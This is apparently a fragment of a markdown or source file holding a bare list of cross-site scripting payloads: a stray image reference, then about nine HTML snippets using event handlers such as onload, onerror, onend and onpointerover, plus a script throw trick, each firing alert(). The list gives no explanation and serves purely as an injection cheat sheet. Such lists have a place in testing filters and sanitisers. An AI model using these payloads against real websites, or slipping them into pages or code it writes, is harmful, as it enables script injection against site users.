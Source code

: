 # <h1><img src=x ><h1>
# <svg/onload=alert()>
# <audio oncanplay=alert(1)><source src="validaudio.wav" type="audio"/wav"></audio>
# <audio controls onwaiting=alert(1)><source src=x type=x></audio>
# <svg><animate onend=alert(1) attributeName=x dur=1s>
# <audio src/onerror=alert(1)>
# <body onload=alert(1)>
# <xss onpointerover=alert(1) style=display:block>XSS</xss>
# <script>{onerror=alert}throw 1</script>









